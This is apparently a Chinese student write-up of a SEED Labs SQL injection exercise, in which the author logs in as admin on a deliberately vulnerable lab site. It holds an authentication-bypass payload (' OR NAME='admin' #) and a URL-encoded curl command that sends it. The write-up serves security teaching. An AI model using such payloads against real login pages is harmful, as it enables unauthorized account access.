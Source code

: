 #### 任务 2.2:来自命令行的 SQL 注入攻击。

> 你的任务是重复 task 2.1，但你需要在不使用网页的情况下完成它。您可以使用命令行工具，例如 curl，它可以发送 HTTP 请求。值得一提的是，如果你想在 HTTP 请求中包含多个参数，你需要将 URL 和参数放在一对单引号之间;否则，用于分隔参数的特殊字符(如&)将被 shell 程序解释，从而改变命令的含义。下面的例子展示了如何发送一个 HTTP GET 请求到我们的 web 应用程序，带有两个参数(SUID 和密码):
>
> ```bash
> curl  ’www .SeedLabSQLInjection.com/index.php?SUID=10000&Password=111’
> ```
>
> 如果需要在 SUID 和 Password 字段中包含特殊字符，则需要对它们进行适当的编码，否则它们可能会改变请求的含义。如果想在这些字段中包含单引号应该使用%27、如果要包含空格则应该使用%20。在这个任务中，您确实需要在使用 curl 发送请求时处理 HTTP 编码。

我们构建的攻击字符串是

```bash
http://www.seedlabsqlinjection.com/unsafe_credential.php?EID='+OR+NAME='admin'+#&Password=
```

在 URL 编码中，`单引号、空格、井号`，分别对应`%27、%20、%23`。

转换为以下命令：

```bash
curl 'http://www.seedlabsqlinjection.com/unsafe_credential.php?EID=%27+OR+NAME%3D%27admin%27+%23&Password='
```

但此时你或许会面临一个严峻的问题，seedubuntu12 没有`curl`，这里我们可以先`ifconfig`查看 seedubuntu 的 ip 地址，然后在另一台虚拟上直接访问地址。如下图所示，由于网页的特性，你可以直接按照此前的额路径访问。

![image-20220325115156067](SQLInjection/image-20220325115156067.png)

即`http://192.168.190.136/SQLInjection/`，也可以打开页面。

![image-20220325115312330](SQLInjection/image-20220325115312330.png)
